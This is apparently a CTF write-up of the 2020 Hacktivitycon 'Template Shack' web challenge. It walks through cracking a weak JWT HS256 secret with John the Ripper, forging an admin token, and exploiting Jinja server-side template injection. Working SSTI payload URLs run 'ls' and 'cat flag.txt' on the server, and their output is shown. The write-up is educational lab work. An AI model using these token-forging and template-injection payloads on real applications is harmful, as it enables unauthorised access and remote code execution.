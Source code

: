 ```yaml
---
layout: post
title: Hacktivitycon writeup - Template Shack
author: Lorentz Vedeler
date: 2020-07-31
tags:   
    - Hacktivitycon
category: writeup
---
```


Template Shack was a challenge worth 150 points in the 2020 Hacktivitycon CTF. The template shack appears to be some sort of online shop for bootsrap themes. The site seems to be mostly static and placeholder code. The only thing of note in the source code for the page is a comment that hints at some administration panel that is under construction.

``` html
<!-- TODO: Finish developing the admin section and add functionality to manage the templates --\>
```

![The template shack front page][template-shack]

But we can find that the site sets a cookie with the name 'token' and a value that looks like a JWT token with the typical structure of three base64 encoded parts separated by a period. I went directly to jwt.io to decode the token and found the following information in the token:

**header:**
``` json
{
  "typ": "JWT",
  "alg": "HS256"
}
```

**body:**
``` json
{
  "username": "guest"
}
```


If you have not seen a JWT token before, it works almost like stamped ID-papers. A user is issued a token from an authorative source (usually the server or some third party login provider) who "stamps" the token with a cryptographic signature. The user can now bring his signed token and show it as proof (s)he is who (s)he claims to be. Whenever the server requires that the user authenticates, the user will pass the jwt token in the Authorize header. If the signature is valid the server will accept the users token and allow the user to proceed with the actions (s)he is authorized for. This is very useful for scaling web applicaitons as the server does not have to maintain sessions for each user, however giving the user control of the token can be a security risk if it is not implemented correctly.

Whenever I see a JWT token in a challenge I will always try to use an old trick where I create my own token with the algorithm set to none and removing the signature. In the past many libraries would accept an unsigned token in this way. That didn't work this time though.

Since the algorithm is HS256 it may be using a weak secret. I ran a script to format the token and signature in a way John the ripper can understand. Then I used john the ripper with the rockyou.txt wordlist to try and find the secret. It returns almost immediatly with the value 'supersecret'. Now we can actually just set the secret in jwt.io and craft any token we want. I chose to try setting the username to 'admin' first. Then I updated the 'token' cookie with the forged token and refreshed the page. 

![Forging the admin token in jwt.io][forged-token]

Now a link to an admin page appears. Clicking the link reveals a dashboard, where not much seems to be interactive yet either. 

![The admin panel][admin-page]

Looking a bit closer we can see that some of the pages give a rather peculiar 404 message that differs from the 404 page outside the admin panel; the url we tried to reach is printed back to us. The title of the challenge seems to hint that the page could be vulnerable to a template injection attack. When we render dynamic pages on the server it is often helpful to use a templating language that will interpolate our variables from our server code into the the html code that is sent to the client. For instance we might have a simple template that looks like this: {% raw %} `<p> {{ user.name }} </p>` {% endraw %} to print the name of the user inside a paragraph tag. Templating engines are usually very complex, so if the user is able to control the input for the templating engine that would in most cases lead to remote code execution.

To check for injection i try to insert {% raw %} `{{ 1 + 1 }}` {% endraw %} in the url and check what is written back to us. Turns out the application is in fact vulnerable to an SSTI attack. I already knew it was some python app from the http header `'Server: Werkzeug/1.0.1 Python/3.6.9'` we received from the server with every request. So enumerating to find the template engine use was just a matter of trying and failing with a few payloads. Turns out it is using the jinja templating engine, so we can find an appropriate payload to something appropriate for remote code execution in jinja.

![A successful SSTI injection][SSTI]

Looking for the flag, we first check if there is any thing of interest in the web directory:

`http://jh2i.com:50023/admin/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('ls -lah').read()%7D%7D`

    total 32K
    drwxr-xr-x 1 root root 4.0K Jul 25 02:12 .
    drwxr-xr-x 1 root root 4.0K Jul 25 02:06 ..
    -rw-r--r-- 1 root root   26 Jul 25 01:57 flag.txt
    -rwxr-xr-x 1 root root 4.7K Jul 25 01:57 main.py
    -rwxr-xr-x 1 root root 1.3K Jul 25 01:57 posts.py
    -rwxr-xr-x 1 root root  108 Jul 25 01:57 requirements.txt
    drwxr-xr-x 1 root root 4.0K Jul 25 01:57 templates

Found it ;) Now we just have to change our payload to read the flag.txt file:

`http://jh2i.com:50023/admin/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()%7D%7D`


[template-shack]: /assets/imgs/template-shack.png "The template shack front page"
[forged-token]: /assets/imgs/forged-token.png "Forging a token in jwt.io"
[admin-page]: /assets/imgs/admin-page.png "The admin panel"
[SSTI]: /assets/imgs/SSTI.png "Successful SSTI"